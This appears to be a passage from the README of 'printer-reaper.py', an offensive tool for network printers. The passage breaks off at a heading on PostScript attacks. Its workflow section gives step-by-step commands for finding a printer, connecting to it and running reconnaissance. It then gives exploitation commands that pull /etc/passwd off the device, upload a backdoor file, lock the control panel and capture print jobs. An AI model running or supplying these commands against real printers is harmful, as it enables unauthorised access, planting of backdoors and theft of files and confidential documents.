## 🏗️ Architecture

![Overview](diagrams/png/overview_for_dummies.png)

---

## 🎓 Typical Workflow

### 1. Discovery

```bash
./printer-reaper.py
```

### 2. Connect

```bash
./printer-reaper.py 192.168.1.100 auto
```

### 3. Reconnaissance

```bash
> id               # Identify printer
> ls               # Browse filesystem
> network          # Get network info
> variables        # List variables
```

### 4. Exploitation

```bash
> download /etc/passwd         # Exfiltrate files
> upload backdoor.ps           # Upload malicious files
> lock 12345                   # Lock control panel
> capture                      # Capture print jobs
```

### 5. Advanced (PostScript)
